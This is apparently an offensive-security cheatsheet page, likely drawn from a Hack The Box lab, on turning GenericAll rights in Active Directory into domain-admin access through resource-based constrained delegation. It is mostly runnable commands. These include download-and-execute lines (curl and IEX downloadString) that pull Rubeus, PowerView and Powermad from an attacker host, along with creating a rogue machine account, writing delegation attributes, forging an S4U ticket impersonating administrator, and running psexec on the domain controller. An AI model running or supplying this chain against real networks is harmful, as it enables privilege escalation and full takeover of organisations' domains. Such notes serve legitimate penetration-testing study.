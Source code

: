 
Remove GenericAll from user, exchange user or security group
```powershell
Remove-ADPermission -Identity dc.support.htb -User '$userORexchangeuserORsecuritygroup' -AccessRights GenericAll
```


## GenericAll Abuse 

Create a machine account with password and the permission to be *AllowedToActOnBehalfOfOtherIdentity* , then to forge a self-signed a ticket to impersonate a user in the explained  given below by Bloodhound:

Full control of a computer object can be used to perform a resource based constrained delegation attack. Abusing this primitive is currently only possible through the Rubeus project.  First, if an attacker does not control an account with an SPN set, [Kevin Robertson's Powermad project](https://github.com/Kevin-Robertson/Powermad) can be used to add a new attacker-controlled computer account:

Download:
```powershell
PS C:\programdata> curl http://10.10.10.10/Rubeus.exe -o Rubeus.exe
C:\programdata> IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/PowerView.ps1')
PS C:\programdata> IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/Powermad.ps1')
# Check if you create machine
Get-DomainObject -Identity 'DC=DOMAIN,DC=TLD' | ms-ds-machineaccountquota
```


```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) - [[Powerview-Cheatsheet]] - can be used to then retrieve the security identifier (SID) of the newly created computer account:

```powershell
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView in this case:

```powershell
Get-DomainComputer attackersystem | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

[SharpCollection: Rubeus](https://github.com/Flangvik/SharpCollection.git) or [Ghostpack/Rubeus](https://github.com/GhostPack/Rubeus)
We can then use [[Rubeus-Cheatsheet]] to hash the plaintext password into its RC4_HMAC form:

```bash
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

Remove paste to vim, remove all spaces and save - [[Vim-Cheatsheet]]
```lua
:set paste
%s/ //g
:wq ticket.kirbi.b64
```

Decode Ticket, Convert the Ticket, export KRB5CCNAME variable and psexec with [[Impacket-Cheatsheet]]
```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi 
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.kirbi
impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb
```

## References

[Bloodhound](https://bloodhound.readthedocs.io/en/latest/)